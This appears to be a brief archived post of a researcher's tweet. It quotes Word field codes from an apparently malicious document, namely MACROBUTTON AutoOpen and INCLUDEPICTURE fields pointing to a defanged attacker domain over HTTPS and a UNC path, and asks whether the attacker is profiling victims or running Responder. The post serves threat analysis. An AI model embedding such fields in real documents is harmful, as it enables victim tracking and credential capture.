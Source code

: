 ```yaml
---
layout: post
title: Nick Carr
date: 2018-07-20 00:00:21
tourl: https://t.co/mZbXbe0al0
tags: [Responder]
---
```

@DissectMalware MACROBUTTON AutoOpen  INCLUDEPICTURE "hxxps://secureaccess-se2[.]com/images/footer.jpg" \d \* MERGEFORMAT   INCLUDEPICTURE "\\\\secureaccess-se2[.]com/logos/penelope.jpg" \d \* MERGEFORMAT

^similar to document profilers used by others
Attacker watching logs or running responder?